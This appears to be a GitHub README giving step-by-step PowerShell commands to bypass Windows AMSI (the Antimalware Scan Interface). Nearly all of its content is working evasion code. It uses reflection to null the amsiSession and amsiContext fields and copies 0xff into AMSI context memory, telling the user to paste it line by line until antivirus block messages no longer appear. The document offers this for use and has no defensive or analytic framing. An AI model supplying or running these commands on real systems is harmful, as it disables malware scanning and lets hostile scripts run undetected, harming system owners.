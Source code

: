 # AMSI Bypass steps (example)

## Github repo: https://github.com/Sh3lldon/FullBypass

### First execute

 - $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

### And after

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

### It should show something like this

 - This script contains malicious content and has been blocked by your antivirus software.

### Then you have to use AMSI bypass. Copy and paste line by line.

 - $a = [Ref].Assembly.GetTypes() | ?{$_.Name -like '*siUtils'}

 - $b = $a.GetFields('NonPublic,Static') | ?{$_.Name -like '*siContext'}

 - [IntPtr]$c = $b.GetValue($null)

 - [Int32[]]$d = @(0xff)
 
 - [System.Runtime.InteropServices.Marshal]::Copy($d, 0, $c, 1)

### After repeat

 - $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

### And after

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

### And you should not see errors about "antivirus software". At this point you bypassed AMSI. And may continue.
